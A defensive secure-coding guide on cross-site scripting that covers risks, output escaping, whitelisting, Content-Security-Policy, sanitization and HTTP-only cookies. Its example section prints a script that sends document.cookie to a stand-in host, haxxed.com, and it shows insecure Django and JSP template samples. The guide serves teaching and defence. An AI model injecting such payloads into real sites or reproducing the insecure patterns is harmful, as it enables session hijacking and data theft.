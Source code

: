 # ***Hack Protection***: Cross-Site Scripting
*Cross-site scripting (XSS)* is one of the most common methods hackers use to attack websites. XSS vulnerabilities permit a malicious user to execute arbitrary chunks of JavaScript when other users visit your site.

## Example
On a forum page where users are permitted to type and post text -

User input:
```html
<script> alert('Your session has been hacked!') </script>
```
*This will display an alert popup on any user's screen that views the message.*

Next input:
```html
<script>window.location = 'haxxed.com?cookie=' + document.cookie</script>
```
*This hijacks the user's session and moves them to a new page listed in the `window` parameter.*

## Risks
XSS allows arbitrary execution of JavaScript code, so the damage that can be done by an attacker depends on the sensitivity of the data being handled by your site. Some of the things hackers have done by exploiting XSS:

- *Spreading worms* on social media sites. Facebook, Twitter and YouTube have all been successfully attacked in this way.
- *Session hijacking*. Malicious JavaScript may be able to send the session ID to a remote site under the hacker’s control, allowing the hacker to impersonate that user by hijacking a session in progress.
- *Identity theft*. If the user enters confidential information such as credit card numbers into a compromised website, these details can be stolen using malicious JavaScript.
- *Denial of service attacks* and website vandalism.
- *Theft of sensitive data*, like passwords.
- *Financial fraud* on banking sites.

## Protection
Web pages are made up of HTML, usually described in template files, with dynamic content woven in when the page is rendered. Stored XSS attacks make use of the improper treatment of dynamic content coming from a backend data store. The attacker abuses an editable field by inserting some JavaScript code, which is evaluated in the browser when another user visits that page.

Unless your site is a content-management system, it is rare that you want your users to author raw HTML. Instead, you should escape all dynamic content coming from a data store, so the browser knows it is to be treated as the contents of HTML tags, as opposed to raw HTML.

Escaping dynamic content generally consists of replacing significant characters with the HTML entity encoding:

| Character | Encoding |
|-----------|----------|
| " | &#34 |
| # | &#35 |
| & | &#38 |
| ' | &#39 |
| ( | &#40 |
| ) | &#41 |
| / | &#47 |
| ; | &#59 |
| < | &#60 |
| > | &#62 |

## Whitelist Values
If a particular dynamic data item can only take a handful of valid values, the best practice is to restrict the values in the data store, and have your rendering logic only permit known good values. For instance, instead of asking a user to type in their country of residence, have them select from a drop-down list.

## Content-Security Policy
Modern browsers support Content-Security Policies that allow the author of a web-page to control where JavaScript (and other resources) can be loaded and executed from. XSS attacks rely on the attacker being able to run malicious scripts on a user’s web page - either by injecting inline `<script>` tags somewhere within the `<html>` tag of a page, or by tricking the browser into loading the JavaScript from a malicious third-party domain.

By setting a content security policy in the response header, you can tell the browser to never execute inline JavaScript, and to lock down which domains can host JavaScript for a page:
```html
Content-Security-Policy: script-src 'self' https://apis.google.com
```
*By whitelisting the URIs from which scripts can be loaded, you are implicitly stating that inline JavaScript is not allowed.*

The content security policy can also be set in a <meta> tag in the <head> element of the page:
```html
<meta http-equiv="Content-Security-Policy" content="script-src 'self' https://apis.google.com">
```

*This approach will protect your users very effectively!* However, it may take a considerable amount of discipline to make your site ready for such a header. Inline scripts tags are considered bad practice in modern web-development - mixing content and code makes web-applications difficult to maintain - but are common in older, legacy sites.

To migrate away from inline scripts incrementally, consider makings use of CSP Violation Reports. By adding a report-uri directive in your policy header, the browser will notify you of any policy violations, rather than preventing inline JavaScript from executing:
```html
Content-Security-Policy-Report-Only: script-src 'self'; report-uri http://example.com/csr-reports
```
*This will give you reassurance that there are no lingering inline scripts, before you ban them outright.*

## Sanitize HTML
Some sites have a legitimate need to store and render raw HTML, especially now that `contentEditable` has become part of the HTML5 standard. If your site stores and renders rich content, you need to use a HTML sanitization library to ensure malicious users cannot inject scripts in their HTML submissions.

## Code Samples
The code samples below illustrate good and bad practices when trying to protect against Cross-Site Scripting.

#### Python | Django
Insecure (`| safe` overrides HTML escape):
```python
**{{ contents | safe }}**
```
Secure:
```python
**{{ contents }}**
```

#### Java
Insecure (does not escape HTML):
```java
<%= contents %>

${contents}

<%
   out.println(contents);
%>

```
Secure (`c:out` safely escapes HTML):
```java
<c:out value="${contents}">
```

## HTTP-Only Cookies
A session-hijacking attack can use malicious JavaScript to steal the cookie containing the user’s session ID. There is rarely a good reason to read or manipulate cookies in client-side JavaScript, so consider marking cookies as HTTP-only, meaning that cookies will be received, stored, and sent by the browser, but cannot be modified or read by JavaScript.